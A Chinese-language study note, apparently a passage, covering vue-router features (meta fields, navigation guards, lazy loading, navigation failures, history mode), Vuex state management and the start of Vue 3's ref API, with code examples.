          meta: { requiresAuth: true }
        }
      ]
    }
  ]
})
```

那么如何访问这个 `meta` 字段呢？

首先，我们称呼 `routes` 配置中的每个路由对象为 **路由记录**。路由记录可以是嵌套的，因此，当一个路由匹配成功后，他可能匹配多个路由记录

例如，根据上面的路由配置，`/foo/bar` 这个 URL 将会匹配父路由记录以及子路由记录。

一个路由匹配到的所有路由记录会暴露为 `$route` 对象 (还有在导航守卫中的路由对象) 的 `$route.matched` 数组。因此，我们需要遍历 `$route.matched` 来检查路由记录中的 `meta` 字段。

下面例子展示在全局导航守卫中检查元字段：

```js
router.beforeEach((to, from, next) => {
  if (to.matched.some(record => record.meta.requiresAuth)) {
    // this route requires auth, check if logged in
    // if not, redirect to login page.
    if (!auth.loggedIn()) {
      next({
        path: '/login',
        query: { redirect: to.fullPath }
      })
    } else {
      next()
    }
  } else {
    next() // 确保一定要调用 next()
  }
})
```

#### 滚动行为

使用前端路由，当切换到新路由时，想要页面滚到顶部，或者是保持原先的滚动位置，就像重新加载页面那样。 `vue-router` 能做到，而且更好，它让你可以自定义路由切换时页面如何滚动。

**注意: 这个功能只在支持 `history.pushState` 的浏览器中可用。**

当创建一个 Router 实例，你可以提供一个 `scrollBehavior` 方法：

```js
const router = new VueRouter({
  routes: [...],
  scrollBehavior (to, from, savedPosition) {
    // return 期望滚动到哪个的位置
  }
})
```

`scrollBehavior` 方法接收 `to` 和 `from` 路由对象。第三个参数 `savedPosition` 当且仅当 `popstate` 导航 (通过浏览器的 前进/后退 按钮触发) 时才可用。

这个方法返回滚动位置的对象信息，长这样：

- `{ x: number, y: number }`
- `{ selector: string, offset? : { x: number, y: number }}` (offset 只在 2.6.0+ 支持)

如果返回一个 falsy (译者注：falsy 不是 `false`，或者是一个空对象，那么不会发生滚动。

#### 路由懒加载



当打包构建应用时，JavaScript 包会变得非常大，影响页面加载。如果我们能把不同路由对应的组件分割成不同的代码块，然后当路由被访问的时候才加载对应组件，这样就更加高效了。

结合 Vue 的异步组件和 Webpack 的代码分割功能，轻松实现路由组件的懒加载。

首先，可以将异步组件定义为返回一个 Promise 的工厂函数 (该函数返回的 Promise 应该 resolve 组件本身)：

```js
const Foo = () =>
  Promise.resolve({
    /* 组件定义对象 */
  })
```

第二，在 Webpack 2 中，我们可以使用动态 import 语法来定义代码分块点 (split point)：

```js
import('./Foo.vue') // 返回 Promise
```

注意

如果您使用的是 Babel，你将需要添加 `syntax-dynamic-import`插件，才能使 Babel 可以正确地解析语法。

结合这两者，这就是如何定义一个能够被 Webpack 自动代码分割的异步组件。

```js
const Foo = () => import('./Foo.vue')
```

在路由配置中什么都不需要改变，只需要像往常一样使用 `Foo`：

```js
const router = new VueRouter({
  routes: [{ path: '/foo', component: Foo }]
})
```

###### 把组件按组分块

有时候我们想把某个路由下的所有组件都打包在同个异步块 (chunk) 中。只需要使用 命名 chunk (opens new window)，一个特殊的注释语法来提供 chunk name (需要 Webpack > 2.4)。

```js
const Foo = () => import(/* webpackChunkName: "group-foo" */ './Foo.vue')
const Bar = () => import(/* webpackChunkName: "group-foo" */ './Bar.vue')
const Baz = () => import(/* webpackChunkName: "group-foo" */ './Baz.vue')
```

Webpack 会将任何一个异步模块与相同的块名称组合到相同的异步块中。



#### 导航故障

> 3.4.0中新增

*导航故障*，或者叫*导航失败*，表示一次失败的导航，原文叫 navigation failures，本文统一采用*导航故障*。

##### 检测导航故障

*导航故障*是一个 `Error` 实例，附带了一些额外的属性。要检查一个错误是否来自于路由器，可以使用 `isNavigationFailure` 函数：

```js
import VueRouter from 'vue-router'
const { isNavigationFailure, NavigationFailureType } = VueRouter

// 正在尝试访问 admin 页面
router.push('/admin').catch(failure => {
  if (isNavigationFailure(failure, NavigationFailureType.redirected)) {
    // 向用户显示一个小通知
    showToast('Login in order to access the admin panel')
  }
})
```

提示

如果你忽略第二个参数：`isNavigationFailure(failure)`，那么就只会检查这个错误是不是一个*导航故障*。

##### NavigationFailureType

`NavigationFailureType` 可以帮助开发者来区分不同类型的*导航故障*。有四种不同的类型：

- `redirected`：在导航守卫中调用了 `next(newLocation)` 重定向到了其他地方。
- `aborted`：在导航守卫中调用了 `next(false)` 中断了本次导航。
- `cancelled`：在当前导航还没有完成之前又有了一个新的导航。比如，在等待导航守卫的过程中又调用了 `router.push`。
- `duplicated`：导航被阻止，因为我们已经在目标位置了。

##### 导航故障的属性

所有的导航故障都会有 `to` 和 `from` 属性，分别用来表达这次失败的导航的目标位置和当前位置。

```js
// 正在尝试访问 admin 页面
router.push('/admin').catch(failure => {
  if (isNavigationFailure(failure, NavigationFailureType.redirected)) {
    failure.to.path // '/admin'
    failure.from.path // '/'
  }
})
```

在所有情况下，`to` 和 `from` 都是规范化的路由位置。

#### 路由模式

##### HTML5 History 模式

`vue-router` 默认 hash 模式 —— 使用 URL 的 hash 来模拟一个完整的 URL，于是当 URL 改变时，页面不会重新加载。

如果不想要很丑的 hash，我们可以用路由的 **history 模式**，这种模式充分利用 `history.pushState` API 来完成 URL 跳转而无须重新加载页面。

```js
const router = new VueRouter({
  mode: 'history',
  routes: [...]
})
```

当你使用 history 模式时，URL 就像正常的 url，例如 `http://yoursite.com/user/id`，也好看！

不过这种模式要玩好，还需要后台配置支持。因为我们的应用是个单页客户端应用，如果后台没有正确的配置，当用户在浏览器直接访问 `http://oursite.com/user/id` 就会返回 404，这就不好看了。

所以呢，要在服务端增加一个覆盖所有情况的候选资源：如果 URL 匹配不到任何静态资源，则应该返回同一个 `index.html` 页面，这个页面就是app 依赖的页面

##### 警告

给个警告，因为这么做以后，服务器就不再返回 404 错误页面，因为对于所有路径都会返回 `index.html` 文件。为了避免这种情况，应该在 Vue 应用里面覆盖所有的路由情况，然后再给出一个 404 页面。

```js
const router = new VueRouter({
  mode: 'history',
  routes: [
    { 
        path: '*', component: NotFoundComponent }
  ]
})
```

或者，如果使用 Node.js 服务器，可以用服务端路由匹配到来的 URL，并在没有匹配到路由的时候返回 404，以实现回退。更多详情请查阅

#### $route 

表示当前激活的路由的状态信息

```
1.'$route'一个路由对象 (route object) 表示当前激活的路由的状态信息，包含了当前 URL 解析得到的信息，
还有 URL 匹配到的路由记录,简单的说包含'当前路由规则，路径,参数'
2.如图此时的'$route'包含当前所在路由的信息
  2.1.利用'$route.query'属性获取连接上的参数，url参数使用?形式
  2.2.利用'$route.params' 获取参数，url形式是/参数的形式
```

##### 推荐

使用props实现动态路由参数页面获取，将组件与路由解耦

#### vue中新窗口打开vue界面

```js
let {herf}=this.$router.resolve({
    ....路由
})
window.open(href, '_blank');
```

#### 导航守卫

导航表示路由正在发生改变。

vuerouter 一套**钩子**来触发路由在不同阶段触发的函数

```
1.vuerouter 一套钩子来触发路由在不同阶段触发的函数
2.导航守卫分成三大块'全局守卫'，'路由独享守卫'，'组件内守卫'
3.'全局守卫' 顾名思义所有路由在进入跳转的时候都会触发，整个'全局路
由'分为三个阶段依次是'beforeEach'、'beforeResolve'、'afterEach'
4.'路由独享守卫' 顾名思义只在定义路由和路由组件中的对象中使用它有一
个阶段'beforeEnter'
5.'组件内守卫'顾名思义只在组件中触发的路由内容它有三个阶段依次
是'beforeRouteEnter'、'beforeRouteUpdate'、'beforeRouteLeave'
```

##### 导航守卫中next()参数讲解

```
    next: Function: 一定要调用该方法来 resolve 这个钩子。执行效果依赖 next 方法的调用参数。
    
    next(): 进行管道中的下一个钩子。如果全部钩子执行完了，则导航的状态就是 confirmed (确认的)。
    
    next(false): 中断当前的导航。如果浏览器的 URL 改变了 (可能是用户手动或者浏览器后退按钮)，那么 URL 地址会重置到 from 路由对应的地址。
    
    next('/') 或者 next({ path: '/' }): 跳转到一个不同的地址。当前的导航被中断，然后进行一个新的导航。你可以向 next 传递任意位置对象，且允许设置诸如 replace: true、name: 'home' 之类的选项以及任何用在 router-link 的 to prop 或 router.push 中的选项。
    
    next(error): (2.4.0+) 如果传入 next 的参数是一个 Error 实例，则导航会被终止且该错误会被传递给 router.onError() 注册过的回调。
```

##### 全局守卫

**beforeEach 全局前置守卫**

应用场景：判断用户是否登录

```
常用来判断用户是否登录，官方给的中文名字叫'全局前置守卫'在路由刚开始触发且还未进入，路由对应的组件中，简单的理解最早触发，但是触发时候没有任何组件一类的加载，正因为如此适合做登陆判断逻辑。
```

**beforeResolve 全局解析守卫 **

```
在导航被确认之前，同时在路由独享守卫和所有组件内守卫和异步路由组件被解析之后，解析守卫就被调用
```

**afterEach 全局后置钩子**

应用场景：控制加载中、蒙版消失

```
在所有路由的生命周期结束后调用，简单的说就是整个路由周期都完事了,这个阶段可以做一场景,当我们在加载后台数据的时候经常会做一个蒙版。
这个蒙版上会有一个加载的转圈的团,'afterEach'是整个路由结束阶段,因此也可以理解成是整个组件加载完阶段,所以在这个时候控制蒙版消失最好。
```

注意是'afterEach ' 整个生命周期都已经结束了，所以**不需要**在**使用next()**往下继续传递执行了。



##### 路由独享守卫

```
路由独享守卫中只有'路由独享守卫' -- 'beforeEnter' 阶段，是当前组件路由进入的时候触发的阶段。
```

1.下面案例触发顺序展示的是全局守卫和路由守卫整体的生命周期:    

beforeEach 生命周期    

beforeEnter 路由守卫中的生命周期

beforeResolve 生命周期    

afterEach 生命周期



##### 组件内守卫

```
1.组件内守卫分三个阶段:'beforeRouteEnter'、'beforeRouteUpdate'、'beforeRouteLeave'三个阶段会在不同时刻触发
	// 在渲染该组件的对应路由被 confirm 前调用
	// 不！能！获取组件实例 `this`
    // 因为当守卫执行前，组件实例还没被创建
2.'beforeRouteEnter' 在还没有进入该组件之前触发，一般用获取异步请求，可以替代vue生命周期中获取数据请求
3.'beforeRouteUpdate'在动态路由中使用，由于动态路由中切换路由的时候 ，由于绑定的是同一个组件因此在不会在重新渲染，但是为了可以让组件中的内容重新渲染，有两种方法第一种使用watch 监听，但这种需要使用'props'写法，另一种就是在'beforeRouteUpdate' 它会

监听到动态路由的改变，

因此可以在这个周期中异步动态路由对应的数据
4.'beforeRouteLeave' 离开组件的时候触发，可以对表单一些校验未提交的时候触发询问用户是否到下一个页面。官方的说法这个离开守卫通常用来禁止用户在还未保存修改前突然离开。该导航可以通过 next(false) 来取消。
```

应用场景：

'beforeRouteEnter' ：利用beforeRouteEnter特性给组件获取异步值

```
1.可以通过传一个回调给 next来访问组件实例。在导航被确认的时候执行回调，并且把组件实例作为回调方法的参数。
2.注意 beforeRouteEnter 是支持给 next 传递回调的唯一守卫。对于 beforeRouteUpdate 和 beforeRouteLeave 来说，this 已经可用了，所以不支持传递回调，因为没有必要了。

beforeRouteEnter (to, from, next) {
  next(vm => {
    // 通过 `vm` 访问组件实例
  })
}
```

'beforeRouteUpdate'：动态路由切换，监听动态路由的改变

'beforeRouteLeave'：用户还未保存修改前突然离开



#### 官方的守卫导航周期总结

```
1.导航被触发。
2.在失活的组件里调用离开守卫。
3.调用全局的 beforeEach 守卫。
4.在重用的组件里调用 beforeRouteUpdate 守卫 (2.2+)。
5.在路由配置里调用 beforeEnter。
6.解析异步路由组件。
7.在被激活的组件里调用 beforeRouteEnter。
8.调用全局的 beforeResolve 守卫 (2.5+)。
9.导航被确认。
10.调用全局的 afterEach 钩子。
11.触发 DOM 更新。
12.用创建好的实例调用 beforeRouteEnter 守卫中传给 next 的回调函数。
```



## VueX

Vuex 是一个专为 Vue.js 应用程序开发的**状态管理模式**。它采用**集中式存储**管理应用的所有组件的状态，并以相应的规则保证状态以一种可预测的方式发生变化

每一个 Vuex 应用的核心就是 store（仓库）。“store”基本上就是一个容器，它包含着你的应用中大部分的**状态 (state)**。Vuex 和单纯的全局对象有以下两点不同：

1. Vuex 的状态存储是响应式的。
2. 不能直接改变 store 中的状态。改变 store 中的状态的**唯一**途径就是显式地**提交 (commit) mutation**。

- store 中的状态是响应式的
- 在组件中调用 store 中的状态简单到仅需要在计算属性中返回即可
- 触发变化也仅仅是在组件的 methods 中提交 mutation

**vuex中，有默认的五种基本的对象**

- state：存储状态（变量）
- getters：对数据获取之前的再次编译，可以理解为state的计算属性，在组件中使用 $sotre.getters.fun()
- mutations：修改状态，并且是同步的。在组件中使用$store.commit('',params)
- actions：异步操作。在组件中使用是$store.dispath('')
- modules：store的子模块，为了开发大型项目，方便状态管理而使用的。这里我们就不解释了，用起来和上面的一样。

### State

单一状态树，与模块化不冲突

##### `mapState` 辅助函数

当一个组件需要获取多个状态的时候，将这些状态都声明为计算属性会有些重复和冗余。为了解决这个问题，我们可以使用 `mapState` 辅助函数帮助我们生成计算属性，让你少按几次键：

```js
// 在单独构建的版本中辅助函数为 Vuex.mapState
import { mapState } from 'vuex'

export default {
  // ...
  computed: mapState({
    // 箭头函数可使代码更简练
    count: state => state.count,

    // 传字符串参数 'count' 等同于 `state => state.count`
    countAlias: 'count',

    // 为了能够使用 `this` 获取局部状态，必须使用常规函数
    countPlusLocalState (state) {
      return state.count + this.localCount
    }
  })
}
```

当映射的计算属性的名称与 state 的子节点名称相同时，也可以给 `mapState` 传一个字符串数组。

```js
computed: mapState([
  // 映射 this.count 为 store.state.count
  'count'
])
```

##### 对象展开运算符

`mapState` 函数返回的是一个对象。如何将它与局部计算属性混合使用呢？通常，需要使用一个工具函数将多个对象合并为一个，以使可以将最终对象传给 `computed` 属性。但自从有了[对象展开运算符 (opens new window)](https://github.com/tc39/proposal-object-rest-spread)，我们可以极大地简化写法：

```js
computed: {
  localComputed () { /* ... */ },
  // 使用对象展开运算符将此对象混入到外部对象中
  ...mapState({
    // ...
  })
}
```



### Getter

从 store 中的 state 中派生出一些状态，例如对列表进行过滤并计数

Vuex 允许在 store 中定义“getter”（可以认为是 store 的计算属性）

就像计算属性一样，getter 的返回值会**根据它的依赖被缓存起来**，且只有**当它的依赖值发生了改变**才会被重新计算。

Getter 接受 state 作为其第一个参数

##### 通过属性访问

Getter 会暴露为 `store.getters` 对象，你可以以属性的形式访问这些值：

```js
store.getters.doneTodos // -> [{ id: 1, text: '...', done: true }]
```



Getter 也可以接受其他 getter 作为第二个参数：

```js
getters: {
  // ...
  doneTodosCount: (state, getters) => {
    return getters.doneTodos.length
  }
}
store.getters.doneTodosCount // -> 1
```



可以很容易地在任何组件中使用它：

```js
computed: {
  doneTodosCount () {
    return this.$store.getters.doneTodosCount
  }
}
```

注意，getter 在通过属性访问时是作为 Vue 的响应式系统的一部分缓存其中的。



##### 通过方法访问

也可以通过让 getter 返回一个函数，来实现给 getter 传参。对 store 里的数组进行查询时非常有用。

```js
getters: {
  // ...
  getTodoById: (state) => (id) => {
    return state.todos.find(todo => todo.id === id)
  }
}
store.getters.getTodoById(2) // -> { id: 2, text: '...', done: false }
```

注意，getter 在通过方法访问时，每次都会去进行调用，而不会缓存结果。



##### `mapGetters` 辅助函数

`mapGetters` 辅助函数仅仅是将 store 中的 getter 映射到局部计算属性：

```js
import { mapGetters } from 'vuex'

export default {
  // ...
  computed: {
  // 使用对象展开运算符将 getter 混入 computed 对象中
    ...mapGetters([
      'doneTodosCount',
      'anotherGetter',
      // ...
    ])
  }
}
```



如果你想将一个 getter 属性另取一个名字，使用对象形式：

```js
...mapGetters({
  // 把 `this.doneCount` 映射为 `this.$store.getters.doneTodosCount`
  doneCount: 'doneTodosCount'
})
```



### Mutation 同步

必须是同步函数

##### 在组件中提交 Mutation

可以在组件中使用 `this.$store.commit('xxx')` 提交 mutation

或者使用 `mapMutations` 辅助函数将组件中的 methods 映射为 `store.commit` 调用（需要在根节点注入 `store`）。



### Action 异步

Action 类似于 mutation，不同在于：

- Action 提交的是 mutation，而不是直接变更状态。
- Action 可以包含任意异步操作

Action 函数接受一个与 store 实例具有相同方法和属性的 context 对象，因此可以调用 `context.commit` 提交一个 mutation

或者通过 `context.state` 和 `context.getters` 来获取 state 和 getters。



##### 分发 Action

Action 通过 `store.dispatch` 方法触发：

```js
store.dispatch('increment')
```

**mutation 必须同步执行**，action 内部可以执行**异步**操作：

```js
actions: {
  incrementAsync ({ commit }) {
    setTimeout(() => {
      commit('increment')
    }, 1000)
  }
}
```

Actions 支持同样的载荷方式和对象方式进行分发：

```js
// 以载荷形式分发
store.dispatch('incrementAsync', {
  amount: 10
})

// 以对象形式分发
store.dispatch({
  type: 'incrementAsync',
  amount: 10
})
```



### Module

由于使用单一状态树，应用的所有状态会集中到一个比较大的对象。当应用变得非常复杂时，store 对象就有可能变得相当臃肿。

为了解决以上问题，Vuex 允许将 store 分割成**模块（module）**。

每个模块拥有自己的 state、mutation、action、getter、甚至是嵌套子模块——从上至下进行同样方式的分割：

```js
const moduleA = {
  state: () => ({ ... }),
  mutations: { ... },
  actions: { ... },
  getters: { ... }
}

const moduleB = {
  state: () => ({ ... }),
  mutations: { ... },
  actions: { ... }
}

const store = new Vuex.Store({
  modules: {
    a: moduleA,
    b: moduleB
  }
})

store.state.a // -> moduleA 的状态
store.state.b // -> moduleB 的状态
```

##### 模块的局部状态

对于模块内部的 mutation 和 getter，接收的第一个参数是**模块的局部状态对象**。

```js
const moduleA = {
  state: () => ({
    count: 0
  }),
  mutations: {
    increment (state) {
      // 这里的 `state` 对象是模块的局部状态
      state.count++
    }
  },

  getters: {
    doubleCount (state) {
      return state.count * 2
    }
  }
}
```

同样，对于模块内部的 action，局部状态通过 `context.state` 暴露出来，根节点状态则为 `context.rootState`：

```js
const moduleA = {
  // ...
  actions: {
    incrementIfOddOnRootSum ({ state, commit, rootState }) {
      if ((state.count + rootState.count) % 2 === 1) {
        commit('increment')
      }
    }
  }
}
```

对于模块内部的 getter，根节点状态会作为第三个参数暴露出来：

```js
const moduleA = {
  // ...
  getters: {
    sumWithRootCount (state, getters, rootState) {
      return state.count + rootState.count
    }
  }
}
```

##### 命名空间

默认情况下，模块内部的 action、mutation 和 getter 注册在**全局命名空间**的——这样使得多个模块能够对同一mutation 或 action 作出响应。

如果希望模块具有更高的封装度和复用性，可以通过添加 `namespaced: true` 的方式使其成为带命名空间的模块。

当模块被注册后，它的所有 getter、action 及 mutation 都会自动根据模块注册的路径调整命名。例如：

```js
const store = new Vuex.Store({
  modules: {
    account: {
      namespaced: true,

      // 模块内容（module assets）
      state: () => ({ ... }), // 模块内的状态已经是嵌套的了，使用 `namespaced` 属性不会对其产生影响
      getters: {
        isAdmin () { ... } // -> getters['account/isAdmin']
      },
      actions: {
        login () { ... } // -> dispatch('account/login')
      },
      mutations: {
        login () { ... } // -> commit('account/login')
      },

      // 嵌套模块
      modules: {
        // 继承父模块的命名空间
        myPage: {
          state: () => ({ ... }),
          getters: {
            profile () { ... } // -> getters['account/profile']
          }
        },

        // 进一步嵌套命名空间
        posts: {
          namespaced: true,

          state: () => ({ ... }),
          getters: {
            popular () { ... } // -> getters['account/posts/popular']
          }
        }
      }
    }
  }
})
```

启用了命名空间的 getter 和 action 会收到局部化的 `getter`，`dispatch` 和 `commit`。换言之，你在使用模块内容（module assets）时不需要在同一模块内额外添加空间名前缀。更改 `namespaced` 属性后不需要修改模块内的代码。



##### 在带命名空间的模块内访问全局内容（Global Assets）

如果希望使用全局 state 和 getter，`rootState` 和 `rootGetters` 会作为第三和第四参数传入 getter，也会通过 `context` 对象的属性传入 action。

若需要在全局命名空间内分发 action 或提交 mutation，将 `{ root: true }` 作为第三参数传给 `dispatch` 或 `commit` 即可。

```js
modules: {
  foo: {
    namespaced: true,

    getters: {
      // 在这个模块的 getter 中，`getters` 被局部化了
      // 你可以使用 getter 的第四个参数来调用 `rootGetters`
      someGetter (state, getters, rootState, rootGetters) {
        getters.someOtherGetter // -> 'foo/someOtherGetter'
        rootGetters.someOtherGetter // -> 'someOtherGetter'
      },
      someOtherGetter: state => { ... }
    },

    actions: {
      // 在这个模块中， dispatch 和 commit 也被局部化了
      // 他们可以接受 `root` 属性以访问根 dispatch 或 commit
      someAction ({ dispatch, commit, getters, rootGetters }) {
        getters.someGetter // -> 'foo/someGetter'
        rootGetters.someGetter // -> 'someGetter'

        dispatch('someOtherAction') // -> 'foo/someOtherAction'
        dispatch('someOtherAction', null, { root: true }) // -> 'someOtherAction'

        commit('someMutation') // -> 'foo/someMutation'
        commit('someMutation', null, { root: true }) // -> 'someMutation'
      },
      someOtherAction (ctx, payload) { ... }
    }
  }
}
```



##### 在带命名空间的模块注册全局 action

若需要在带命名空间的模块注册全局 action，你可添加 `root: true`，并将这个 action 的定义放在函数 `handler` 中。例如：

```js
{
  actions: {
    someOtherAction ({dispatch}) {
      dispatch('someAction')
    }
  },
  modules: {
    foo: {
      namespaced: true,

      actions: {
        someAction: {
          root: true,
          handler (namespacedContext, payload) { ... } // -> 'someAction'
        }
      }
    }
  }
}
```



##### 带命名空间的绑定函数

当使用 `mapState`, `mapGetters`, `mapActions` 和 `mapMutations` 这些函数来绑定带命名空间的模块时，写起来可能比较繁琐：

```js
computed: {
  ...mapState({
    a: state => state.some.nested.module.a,
    b: state => state.some.nested.module.b
  })
},
methods: {
  ...mapActions([
    'some/nested/module/foo', // -> this['some/nested/module/foo']()
    'some/nested/module/bar' // -> this['some/nested/module/bar']()
  ])
}
```

对于这种情况，可以将模块的空间名称字符串作为第一个参数传递给上述函数，这样所有绑定都会自动将该模块作为上下文。于是上面的例子可以简化为：

```js
computed: {
  ...mapState('some/nested/module', {
    a: state => state.a,
    b: state => state.b
  })
},
methods: {
  ...mapActions('some/nested/module', [
    'foo', // -> this.foo()
    'bar' // -> this.bar()
  ])
}
```



而且，可以通过使用 `createNamespacedHelpers` 创建基于某个命名空间辅助函数。

它返回一个对象，对象里有新的绑定在给定命名空间值上的组件绑定辅助函数：

```js
import { createNamespacedHelpers } from 'vuex'

const { mapState, mapActions } = createNamespacedHelpers('some/nested/module')

export default {
  computed: {
    // 在 `some/nested/module` 中查找
    ...mapState({
      a: state => state.a,
      b: state => state.b
    })
  },
  methods: {
    // 在 `some/nested/module` 中查找
    ...mapActions([
      'foo',
      'bar'
    ])
  }
}
```



## Vue 3.x

### 组合式api

问题场景：

Vue 其中一个被人诟病得很严重的问题就是逻辑复用。随着项目越发的复杂，可以抽象出来被复用的逻辑也越发的多。但是 Vue 在 2.x 阶段只能通过 mixins 来解决（当然也可以非常绕地实现 HOC，这里不再展开）。mixins 只是简单地把代码逻辑进行合并，如果需要对逻辑进行追踪将会是一个非常痛苦的过程，因为繁杂的业务逻辑里面往往很难一眼看出哪些数据或方法是来自 mixins 的，哪些又是来自当前组件的。



#### ref

在对象中包装值似乎不必要，但在 JavaScript 中保持不同数据类型的行为统一是必需的。这是因为在 JavaScript 中，`Number` 或 `String` 等基本类型是通过**值传递**的，而不是通过引用传递的

`ref` 对值创建了一个**响应式引用**